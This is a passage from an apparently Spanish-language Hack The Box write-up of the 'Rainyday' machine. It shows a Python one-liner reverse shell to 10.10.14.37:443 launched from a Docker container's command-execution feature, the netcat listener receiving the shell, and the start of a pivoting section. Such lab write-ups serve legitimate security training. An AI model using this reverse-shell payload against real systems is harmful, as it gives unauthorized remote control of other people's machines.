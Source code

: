 En el contenedor de docker, podemos ejecutar comandos, esto se puede conseguir con el botón de `execute command`, pero para conseguir una shell estable, usaremos el botón `Execute Command (background)`

![](/assets/img/HTB/Rainyday/docker2.png)

Podemos usar este payload para conseguir una reverse shell

```python
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.37",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

Y con esto, conseguimos una shell!

```plaintext
> nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.37] from [UNKWOWM] [10.10.11.184] 41822
/ $ 
```

### Pivoting

Ahora, tenemos que pensar en cómo utilizar este contenedor para averiguar más sobre la máquina. En primer lugar, echaremos un vistazo a las direcciones IP y descubrimos que deberíamos escanear los otros contenedores presentes en esta red utilizando algún túnel. Lo que nos delató fue la dirección IP que termina en 3, lo que significa que probablemente hay otros hosts en este

![](/assets/img/HTB/Rainyday/ifconfig_contenedor1.png)
